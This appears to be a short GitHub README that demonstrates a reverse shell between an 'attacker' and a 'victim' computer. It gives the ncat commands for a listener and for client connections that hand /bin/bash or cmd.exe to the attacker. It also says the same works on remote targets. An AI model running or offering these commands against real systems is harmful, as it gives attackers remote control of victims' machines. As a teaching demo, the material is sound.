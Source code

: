 # reverse-shell-demo

## Reverse Shell demo between 2 computers on the same network, a server (attacker computer), and a client (victim computer).
## *Can be done on a remote target but local targets are faster for a demo, result is identical*

### 1) Install NetCat/Nmap


### 2) Set up a listening server:
Run `ncat -lvnp <port>` on the server.


### 3) Connect client to server:
For Linux/Bash:
Run `ncat <server-internal-ip> <port> -e /bin/bash`

For Windows:
Run `ncat <server-internal-ip> <port> -e cmd.exe`

*To find the internal IP run `hostname I` on Linux OR `ipconfig` on Windows.*
